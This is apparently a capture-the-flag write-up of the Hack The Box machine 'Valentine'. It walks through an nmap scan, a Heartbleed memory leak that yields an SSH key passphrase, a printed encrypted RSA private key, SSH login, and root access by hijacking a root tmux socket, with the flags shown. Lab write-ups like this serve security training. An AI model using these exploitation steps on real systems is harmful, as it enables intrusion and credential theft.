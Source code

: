 ```yaml
---
layout: offsec
category: [offsec]
---
```


![banner](/assets/images/htb/valentine.png)

# Valentine: 10.10.10.79

## Scanning:
<br>

```bash
nmap -A -oA nmap 10.10.10.79

Starting Nmap 7.01 ( https://nmap.org  ) at 2018-05-06 20:04 EDT
Nmap scan report for 10.10.10.79
Host is up (0.15s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp   open     http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp  open     ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2018-05-07T00:05:15+00:00; 0s from scanner time.
2251/tcp filtered dif-port
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.08 seconds
```

<br>

## Gaining Access:

<br>

First thing first let's see what's on those HTTP(S) applications and run a `dirb`.

![](../assets/images/htb/79_index.png)

_index.html_
```html
<center><img src="omg.jpg"/></center>

```

Well, look what we got. A nice picture with a heart bleeding. The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet

During OSCP exam, you can use `metasploit` for only one machine. Thus, I decided to use this <a href='https://github.com/kevincarroll7737/tools/heartbleed-PoC'>tool</a>.

```bash
python heartbleed-exploit.py 10.10.10.79;head out.txt -n 50; rm out.txt
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 19  mV0aGVoeXBlCg==.
  0160: D1 9C 3E AE 23 57 C6 09 0B 9D E3 01 7F F4 92 78  ..>.#W.........x
  0170: F7 5F 65 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ._e.............

echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=='|base64 -d                  
heartbleedbelievethehype
```

I've got stuck for a while shuffling the memory. Finally, I discovered the path `/dev` by running `nikto -host 10.10.10.79` in the HTTPS application which gave me the encoded `hype_key`.

_hype_key.txt_
```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

Well, the initial `nmap` shows that the ssh server accepts `RSA-2048`.

```bash
chmod 600 hype_key.txt
ssh -i hype_key.txt hype@10.10.10.79
Enter passphrase for key 'hype_key.txt': heartbleedbelievethehype

Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
 * Documentation:  https://help.ubuntu.com/
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun May  6 17:56:59 2018 from 10.10.15.75
hype@Valentine:~$ 
```



<br>

## Maintaining Access:

<br>
```
N/A
```

<br>

## Acheive Tasks:

<br>

```bash
#Localhost
sudo scp -i hype_key.txt ~/git/tools/linenum.sh hype@10.10.10.79:~/
Enter passphrase for key 'hype_key.txt': 
linenum.sh                                                             100%   41KB  41.2KB/s   00:0o
```

Once the `linenum.sh` was on the `valentine host` I ran it and discovered that `tmux` was installed. 

I fist ran, `tmux -V` to see if this version was vulnerable to `utmp priv esc`, but it wasn't. 

`Tmux` is a strong shell emulator. It gives you the opportunity to leave terminal session and come back to them without interrupting the running process by creating a persistent socket `-S` stored localy. 



```bash
#Get the root tmux socket
hype@Valentine:~$ ps -aux|grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1027  0.0  0.1  26416  1688 ?        Ss   19:07   0:01 /usr/bin/tmux -S /.devs/dev_sess
hype       4406  0.0  0.0  13576   936 pts/0    S+   19:41   0:00 grep --color=auto tmux

#Connect to this socket
hype@Valentine:~$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype~ id
uid=0(root) gid=0(root) groups=0(root)
oot@Valentine:/home/hype~ cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
hype@Valentine:~$ find . -iname user.txt
./Desktop/user.txt
hype@Valentine:~$ cat ./Desktop/user.txt 
e6710a5464769fd5fcd216e076961750
```

So, how to manage `root tmux sockets` on a public server? Simple, make sure that this socket is a `root` dirctory

```bash
hype@Valentine:~$ ps -aux|grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1027  0.0  0.1  26416  1688 ?        Ss   19:07   0:01 /usr/bin/tmux -S /.devs/dev_sess
root       4588  0.0  0.1  26420  1688 ?        Ss   19:57   0:00 tmux -S /root/test
hype       4653  0.0  0.0  13576   936 pts/0    S+   19:57   0:00 grep --color=auto tmux
hype@Valentine:~$ tmux -S /root/test
failed to connect to server: Permission denied
```
